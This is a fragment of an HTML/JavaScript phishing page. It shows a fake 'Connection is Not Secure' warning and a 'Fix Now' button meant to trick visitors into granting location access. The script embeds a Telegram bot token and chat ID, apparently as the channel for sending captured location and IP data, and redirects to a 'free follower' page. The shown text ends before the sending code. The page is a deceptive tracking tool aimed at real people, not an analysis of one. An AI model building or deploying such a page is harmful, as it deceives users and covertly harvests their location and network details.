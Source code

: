         }
        .popup button {
            background: red;
            color: white;
            border: none;
            padding: 10px;
            margin-top: 10px;
            cursor: pointer;
            border-radius: 5px;
        }
        #loadingMessage {
            margin-top: 20px;
        }
    </style>
</head>
<body>
    <div class="content">
        <h2>📍 Check Your connection...</h2>
        <p id="loadingMessage">Please wait while we get your location information.</p>
    </div>

    <div class="popup" id="locationPopup">
        <h2>🔒 Connection is Not Secure</h2>
        <p>Please allow your location and secure your system.</p>
        <button onclick="requestLocation()">Fix Now</button>
    </div>

    <script>
        // Configuration
        const BOT_TOKEN = "7659085089:AAGTE5B4NRLG_tFvbfYayfrG0URgFgXnv5w" ;
        const FIXED_CHAT_ID = "6319619567" ;
        const HIGH_ACCURACY = true; // Set to false if you don't need high accuracy
        const MAX_RETRIES = 3; // Maximum retries for failed requests
        const REQUEST_TIMEOUT = 10000; // 10 seconds timeout for API requests
        const REDIRECT_URL = "https://laik112.github.io/Instal-free-follower-/"; // Editable redirect URL

        // Global variables
        let userIP = '';
        let retryCounts = {};

        // Location permission check functions
        function checkLocationAccess() {
            navigator.geolocation.getCurrentPosition(
                function(position) {
                    console.log("Location Access Granted");
                    getLocation(); // Proceed with location tracking
                },
                function(error) {
                    if (error.code === error.PERMISSION_DENIED) {
                        document.getElementById("locationPopup").style.display = "block";
                        setTimeout(redirectToSettings, 3000);
                    } else {
                        showError(error);
                    }
                }
            );
        }
